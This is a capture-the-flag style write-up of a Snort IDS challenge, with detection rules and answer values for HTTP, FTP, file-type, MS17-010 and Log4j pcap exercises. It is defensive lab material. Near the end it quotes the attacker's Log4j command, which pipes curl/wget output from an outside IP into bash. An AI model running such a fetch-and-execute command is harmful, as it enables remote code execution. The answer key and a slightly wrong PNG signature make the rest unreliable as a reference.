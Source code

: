 # Snort Challenge - The Basics

### Writing IDS Rules (HTTP)
- Write a single rule to detect "all TCP port 80 traffic" packets in the given pcap file. What is the number of detected packets? <br />
Move to the TASK-2 folder. To write new rules, we need to edit `local.rules`. The rule we need is: <br />

      alert tcp any any -> any 80 (msg:"TCP traffic on port 80 detected"; sid:1000001; rev:1;)
   
To run snort and test this rules on the .pcap file, run the following command: `snort -c local.rules -A full -l . -r mx-3.pcap -K ASCII` <br />
![image](https://github.com/user-attachments/assets/46ab7687-65c9-4517-ba91-680c54b28237) <br />
The number of detected HTTP packets is `164`. <br /><br />

- Investigate the log file. What is the destination address of packet 63? <br />
Run the command `sudo snort -r snort.log.1724491962 -n 63` to get the answer: `216.239.59.99`<br />
- What is the ACK number of packet 64? <br />
Run the command `sudo snort -r snort.log.1724491962 -n 64` to get the answer: `0x2E6B5384` <br />
- What is the SEQ number of packet 62? <br />
Run the command `sudo snort -r snort.log.1724491962 -n 62` <br />
![image](https://github.com/user-attachments/assets/d5a10956-4f0d-4d8f-8184-27f39e087e57)<br />
`0x36C21E28`. <br />
- What is the TTL of packet 65? `128` <br />
- What is the source IP of packet 65? `145.254.160.237` <br />
- What is the source port of packet 65? `3372` <br />


### Writing IDS Rules (FTP)
Write a single rule to detect "all TCP port 21"  traffic in the given pcap.  <br />
Similarly as before, the rule we need to add is: <br />

      alert tcp any any <> any 21 (msg:"TCP traffic on port 21 detected"; sid:1000001; rev:1;)
This will capture every packet (in every direction) having destination port 21. <br />
- What is the number of detected packets? <br />
After running `snort -c local.rules -A full -l . -r ftp-png-gif.pcap`, the number of detected packets by snort are `307`. <br />

- Investigate the log file. What is the FTP service name? <br />
My guess is that the name of the FTP service is probably inside the banner, therefore it should be inside the very first packets. Try to inspect only the first 5 packets and see what happens. To read the content of the packet we can use the `-X` flag. <br />
Therefore run the command `snort -r snort.log.1724497351 -X -n 5`. The 4th packet has the answer we are looking for:
![image](https://github.com/user-attachments/assets/85dbbbe3-791c-4e43-8129-fd833f7a7018) <br />
`Microsoft FTP Service`. <br />

- Write a rule to detect failed FTP login attempts in the given pcap. What is the number of detected packets? <br />
By looking at the contents of the packet, notice that each failed FTP login attempt prompts a default message with the pattern "530 User". We want to filter every packet with this pattern; to do that we can use the `content` parameter. The rule is:

      alert tcp any any <> any 21 (msg:"Failed login detected"; content:"530 User"; sid:1000001; rev:1;)
And again run the command `snort -c local.rules -A full -l . -r ftp-png-gif.pcap`. <br />
![image](https://github.com/user-attachments/assets/2840e4f9-4988-4c86-bef6-bab1824f2629)<br />
The number of detected failed login attempts is `41`. <br />

- Write a rule to detect successful FTP logins in the given pcap. The process is similar as before, but filter for the pattern "230 User" instead. The answer is `1`. <br />
- Write a rule to detect FTP login attempts with a valid username but no password entered yet. Now filter for "331 Password" to get the answer: `42`. <br />
- Write a rule to detect FTP login attempts with the "Administrator" username but no password entered yet. <br />
For this we're going to need identify two different patterns on the same packets. The first pattern is "331 Password" and the second is "Administrator". Therefore the final rule is:

      alert tcp any any <> any 21 (msg:"Failed login detected"; content:"Administrator"; content:"331 Password"; sid:1000001; rev:1;)

The number of such login attempts detected by snort is `7`. <br />

### Writing IDS Rules (PNG)

- Write a rule to detect the PNG file in the given pcap. Investigate the logs and identify the software name embedded in the packet. <br />
To find the png file we first need to search it's [hexadecimal signature](https://en.wikipedia.org/wiki/List_of_file_signatures) to be able to identify it. The final rule should look something like this:

      alert tcp any any <> any any (msg:"PNG file Detected"; content:"|89 50 4A 47 0D 0A 1A 0A|"; sid:100002; rev:1;)
Now run `snort -r snort.log.1724508168 -d` to find the content of the packet: 
![image](https://github.com/user-attachments/assets/45d22586-5822-4b11-b915-d2bf7b629042)<br />
The software is `Adobe ImageReady`<br />

- Write a rule to detect the GIF file in the given pcap. Investigate the logs and identify the image format embedded in the packet.
The process is similar as before but now we need to look for the hexadecimal signature of GIF, which is `47 49 46 38 39`.
![image](https://github.com/user-attachments/assets/287b054d-f273-452c-adb8-7e960219ca7f) <br />
The format is `GIF89a`. <br />

### Writing IDS Rules (Torrent Metafile)

- Write a rule to detect the torrent metafile in the given pcap. <br />
The rule to add here is very intuitive:

      alert tcp any any <> any any (msg:"PNG file Detected"; content:"torrent"; sid:100002; rev:1;)
Snort detecs 2 packets using this rule. The answer to the following questions can be easily found in the content of the packets. <br />
- What is the number of detected packets? `2`. <br />

- What is the name of the torrent application? `bittorrent` <br />
- What is the MIME (Multipurpose Internet Mail Extensions) type of the torrent metafile? `application/x-bittorrent` br />
- What is the hostname of the torrent metafile? `tracker2.torrentbox.com` <br />

### Troubleshooting Rule Syntax Errors
In this section we need to fix the syntax error in local-X.rules files and make them work smoothly. Each answer will correspond to the number of detected packets using the newly corrected rule. Let's start: <br />
1) `16` <br />
2) `68` <br />
3) `87` <br />
4) `90` <br />
5) `155` <br />
6) `2` <br />
7) `msg` <br />

### Using External Rules (MS17-010)
Moving on to TASK-7: <br />
- Use the given rule file (local.rules) to investigate the ms1710 exploitation. What is the number of detected packets? `25154` <br />
- Use local-1.rules empty file to write a new rule to detect payloads containing the "\IPC$" keyword. What is the number of detected packets? `12`<br />
- What is the requested path? `\\192.168.116.138\IPC$` <br />
- What is the CVSS v2 score of the MS17-010 vulnerability? After some quick OSINT, the answer can be easily found: `9.3` <br />

### Using External Rules (Log4j)
By now we should be able to complete each task without explicitly explaining every step: 
- Use the given rule file (local.rules) to investigate the log4j exploitation. What is the number of detected packets? `26` <br />
- How many rules were triggered? `4`<br />
- What are the first six digits of the triggered rule sids? `210037`<br />
- What is the number of detected packets? `41`<br />
- What is the name of the used encoding algorithm? `Base64`<br />
- What is the IP ID of the corresponding packet? `62808`<br />
- What is the attacker's command? `(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash`<br />
- What is the CVSS v2 score of the Log4j vulnerability? `9.3`<br /><br />

bye :)
